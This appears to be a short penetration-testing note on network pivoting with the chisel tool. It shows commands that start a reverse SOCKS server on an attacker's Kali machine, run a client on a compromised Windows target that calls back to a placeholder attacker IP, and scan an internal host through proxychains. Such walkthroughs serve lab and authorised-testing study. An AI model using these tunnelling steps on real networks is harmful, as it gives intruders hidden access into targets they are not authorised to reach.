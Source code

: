 download chisel on https://github.com/jpillora/chisel/releases 

download **[chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) for kali and [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz) for target windows.**

prepare chisel server on kali : 

fix /etc/proxychains4.conf by comment on sock4 and push sock5 (1080 default port

![image](https://user-images.githubusercontent.com/55615071/195266565-7de8038a-0d45-4bc4-bf74-b1fca7f69165.png)



```bash
chmod +x chisel
```

open server on kali : 

```bash
./chisel server -p <Local_Attacker_Port> --socks5 --reverse
```

![image](https://user-images.githubusercontent.com/55615071/189031440-23102649-c833-4ace-a1a0-10f33dc3388e.png)


upload chisel.exe to windows target and run following command.

```bash
chisel.exe client <attacker_IP>:<Local_listening_port> R:socks &

chisel.exe client <attacker_IP>:<Local_listening_port> R:[port_file_proxychain]:socks &
```

![image](https://user-images.githubusercontent.com/55615071/189031515-c4c54896-bd04-40c0-bc7b-43dc82c63afb.png)


![image](https://user-images.githubusercontent.com/55615071/189064300-dc57330d-61dc-476b-b9cf-72afb1540b39.png)


Remind : & on command is meaning run chisel on background

After run chisel client, check state connect on chisel server. it should be like this

![image](https://user-images.githubusercontent.com/55615071/189031556-d2728e7c-db24-4c89-8c04-bbe52aa36687.png)

try testing by use proxychains before command

![image](https://user-images.githubusercontent.com/55615071/189031576-396b1d6c-7d26-45c6-9793-1d876845a043.png)

proxychains nmap -sT -Pn -sV -sC -p1-6000 192.168.239.129

![image](https://user-images.githubusercontent.com/55615071/189031936-dd2bbdcb-284d-4d58-abd8-e2cb0d3ddb9d.png)

![image](https://user-images.githubusercontent.com/55615071/189064326-048fdaef-8772-4380-8714-d35c40d8442e.png)
